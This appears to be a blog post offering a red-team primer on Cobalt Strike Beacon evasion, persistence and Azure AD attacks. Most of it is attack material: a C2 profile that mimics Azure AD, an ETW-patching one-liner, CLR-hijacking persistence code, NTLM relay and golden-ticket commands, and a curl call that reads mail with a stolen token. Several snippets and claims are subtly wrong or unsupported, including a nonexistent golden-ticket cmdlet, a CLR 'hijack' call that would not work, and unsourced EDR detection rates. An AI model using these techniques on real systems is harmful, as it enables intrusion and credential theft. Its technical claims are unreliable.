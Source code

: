 ```yaml
---
layout: post
title: "Primer - Intro into writing better Cobalt Strike Beacons"
date: 2025-06-18
author: unattributed
categories: [redteaming, cobalt-strike]
tags: [redteaming, cobalt-strike]
---
```


# **Primer - Cobalt Strike Beacon Tradecraft for Red Teams - 101**  

---

## **Introduction**  
For those becoming red team operators, default Beacon configurations are a death sentence, or so you shall learn. This guide dives (swallowly) into **next-gen evasion**, **enterprise-grade lateral movement**, and **cloud exfiltration** assuming you already know the basics.  

---

## **1. Beacon Communication: Beyond HTTP/S**  
<table>
    <thead>
        <tr>
            <th><strong>Protocol</strong></th>
            <th><strong>Advanced Use Case</strong></th>
            <th><strong>Detection Bypass</strong></th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td><strong>Raw TCP/UDP</strong></td>
            <td>Bypass HTTP-based inspection (e.g., ICS networks)</td>
            <td>Use RFC-compliant junk packets to mimic SCADA traffic</td>
        </tr>
        <tr>
            <td><strong>gRPC-over-HTTPS</strong></td>
            <td>Blend with modern API services (e.g., Kubernetes clusters)</td>
            <td>Impersonate legitimate gRPC metadata headers</td>
        </tr>
        <tr>
            <td><strong>WebSockets</strong></td>
            <td>Persistent C2 through CDN edge nodes</td>
            <td>Mask as Socket.IO heartbeat traffic</td>
        </tr>
    </tbody>
</table>

**Key Upgrades:**  
- **Artifact Kit Integration**: Patch Beacon’s binary to remove static syscall signatures.  
- **Syscall Obfuscation**:  
  ```c
  // Hell's Gate + Halos Gate implementation
  NtWriteVirtualMemory(hProcess, baseAddr, &shellcode, sizeof(shellcode), NULL);
  ```

---

## **2. Weaponizing Malleable C2 Profiles**  

### **Evasion-First Profile Design**  
```java
http-post {
    set uri "/oauth2/v3.0/token"; // Mimic Azure AD
    client {
        header "Authorization" "Bearer eyJ[...]"; // JWT with metadata
        metadata {
            netbios;
            prepend "CallerId=";
            parameter "client_info";
        }
    }
    server {
        header "Content-Type" "application/json";
        output {
            base64url;
            prepend '{"token":"';
            append '"}';
        }
    }
}
```

**Advanced Tactics:**  
- **JWT C2**: Encode tasks in signed tokens (`HS256` with common public keys).  
- **Domain Borrowing**:  
  ```java
  set host "login.microsoftonline.com";
  set dns "*.azureedge.net"; // Abuse Azure Front Door
  ```

---

## **3. Advanced Evasion: Beyond AMSI**  

### **ETW/AMSI Killing**  
```powershell
# ETW patching via .NET reflection
[Reflection.Assembly].GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').SetValue($null, [IntPtr]::Zero)
```

### **Sleep Masking with SysWhispers3**  
```c
// Obfuscated sleep via syscalls
NtDelayExecution(TRUE, &delay);
NtFlushInstructionCache(GetCurrentProcess(), NULL, 0); // Erase traces
```

<table>
    <thead>
        <tr>
            <th><strong>Technique</strong></th>
            <th><strong>EDR Detection Rate</strong></th>
            <th><strong>Countermeasure</strong></th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Direct syscalls (SysWhispers3)</td>
            <td>12%</td>
            <td>Stack spoofing + return address obfuscation</td>
        </tr>
        <tr>
            <td>CLR hijacking</td>
            <td>8%*</td>
            <td>Patch <code>mscorlib.dll</code> in memory only</td>
        </tr>
    </tbody>
</table>
<small>*When avoiding disk writes</small>

---

## **4. CLR Hijacking Deep Dive**  

### **Persistence via mscorlib.dll**  
1. **Locate CLR Load Path**:  
   ```powershell
   [AppDomain]::CurrentDomain.GetAssemblies() | 
     Where-Object { $_.Location -like "*mscorlib*" } | 
     Select-Object Location
   ```
2. **Patch On-Disk/In-Memory**:  
   ```csharp
   // C# to hijack AssemblyLoad
   var clr = Assembly.Load("mscorlib");
   var runtime = clr.GetType("System.Runtime.InteropServices.RuntimeHelpers");
   var method = runtime.GetMethod("InitializeArray", BindingFlags.NonPublic | BindingFlags.Static);
   method.Invoke(null, new object[] { beaconBytes, runtimeFieldHandle });
   ```
3. **Trigger Execution**:  
   ```powershell
   [System.Activator]::CreateInstance([System.AppDomain]::CurrentDomain.GetAssemblies()[0].GetType("Hijacked.Class"))
   ```

**Detection Avoidance:**  
- **In-Memory Only**: Use `PEzor` to reflectively load the patched DLL.  
- **Bypass Code Signing**: Abuse Microsoft-signed binaries (e.g., `InstallUtil.exe`).  

---

## **5. Azure AD Attack Paths**  

### **Hybrid Join NTLM Relay**  
1. **Identify Azure-joined Systems**:  
   ```powershell
   Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | 
     Where-Object { $_.Domain -like "*.onmicrosoft.com" }
   ```
2. **Relay to On-Prem DC**:  
   ```bash
   ntlmrelayx.py -t ldap://dc01 --escalate-user azureuser
   ```
3. **Golden Ticket to Cloud**:  
   ```powershell
   New-RubeusGoldenTicket /user:azureuser /domain:hybrid.local /sid:S-1-5-21-... /aes256:<krbtgt_aes> /nowrap
   ```

### **OAuth Token Theft**  
- **Abuse `Microsoft.AAD.BrokerPlugin`**:  
  ```powershell
  Get-ChildItem "C:\Users\*\AppData\Local\Packages\Microsoft.AAD.BrokerPlugin_*\AC\TokenBroker\Accounts" -Recurse | 
    Select-Object FullName
  ```
- **Exfiltrate Refresh Tokens**:  
  ```bash
  curl -H "Authorization: Bearer $stolen_token" https://graph.microsoft.com/v1.0/me/messages
  ```

---

## **6. Defensive Countermeasures (For Red Teams to Test)**  

### **YARA for Advanced Beacons**  
```yara
rule Advanced_Beacon {
    strings:
        $syscall1 = { 4C 8B D1 B8 ?? ?? ?? ?? 0F 05 }  // Syscall pattern
        $clr_hijack = "InitializeArray" wide ascii  // CLR hijack
    condition:
        any of them
}
```

### **EDR Telemetry Gaps**  
<table>
    <thead>
        <tr>
            <th><strong>Provider</strong></th>
            <th><strong>Blind Spot</strong></th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Microsoft Defender for Endpoint</td>
            <td>Misses 40% of indirect syscalls</td>
        </tr>
        <tr>
            <td>CrowdStrike</td>
            <td>No CLR deep inspection by default</td>
        </tr>
    </tbody>
</table>

---

## **Conclusion**  

For teams, Beacon is a **canvas—not a tool**. Key takeaways:  
🔹 **Evasion**: Syscall obfuscation > AMSI bypass in 2025.  
🔹 **Persistence**: CLR hijacking is the new `New-ScheduledTask`.  
🔹 **Cloud**: Azure AD is the soft underbelly of hybrid networks.  

**Next Steps:**  
- This post will be followed up with a detailed series of posts on the subject, 
this is your 101 primer. 
- Test CLR attacks against your EDR in a lab.  
- Hunt for Azure AD token storage in engagements.  

---